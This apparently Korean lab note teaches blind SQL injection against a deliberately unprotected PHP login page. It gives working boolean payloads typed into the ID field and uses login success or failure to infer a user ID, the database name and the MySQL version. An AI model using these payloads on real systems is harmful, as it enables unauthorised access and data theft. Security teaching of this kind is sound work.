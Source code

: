 #### 실습

- injection vector : 참,거짓을 표시할수 있는 공간 

```
/var/www/html/member/member_login_check.php
방어 해놓은거 원상복구
~
// $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
select * from member where u_id='' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #' and u_pass='$pw';

ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #


id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #
pass : 아무거나 

결과) 로그인 성공 (참) 

id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) < 65 #
pass : 아무거나 

결과) 로그인 실패 (거짓)
```

```
데이터베이스명 알아내기
-- 미리 체크
mysql> select database();
+------------+
| database() |
+------------+
| WebTest    |
+------------+
1 row in set (0.00 sec)

-- 모른다는 가정하에 테스트
- 알파벳인가 ? (확률)
' or ascii(substring(database(),1,1)) >= 65  #
참

- 대소문자 ? (확률)
' or ascii(substring(database(),1,1)) >= 97  #
거짓 


' or ascii(substring(database(),2,1)) >= 65 #
' or ascii(substring(database(),3,1)) >= 65 #
' or ascii(substring(database(),4,1)) >= 65 #

데이터베이스 버전 
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.1.73    |
+-----------+
1 row in set (0.00 sec)

0~9 번까지 대입

' or substring(version(),1,1) ='1' #
거짓 

```